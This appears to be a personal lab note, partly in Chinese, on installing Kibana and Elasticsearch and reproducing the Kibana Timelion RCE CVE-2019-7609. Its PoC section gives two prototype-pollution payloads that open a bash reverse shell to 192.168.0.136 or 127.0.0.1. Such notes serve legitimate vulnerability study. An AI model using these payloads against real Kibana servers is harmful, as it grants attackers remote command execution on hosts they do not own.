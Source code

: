 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 
### 载入数据

安装完ElasticSearch之后需要载入数据，否则出现这种情况：
![image](https://user-images.githubusercontent.com/30398606/160978398-9e1b2ad7-b2fc-476a-ab88-2e390a6d7779.png)

- https://www.elastic.co/guide/en/kibana/6.7/tutorial-load-dataset.html

### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


但是漏洞触发，还需要点击"Canvas"。但是某些版本，比如6.2.4并没有"Canvas"功能。

## Ref
- https://github.com/mpgn/CVE-2019-7609
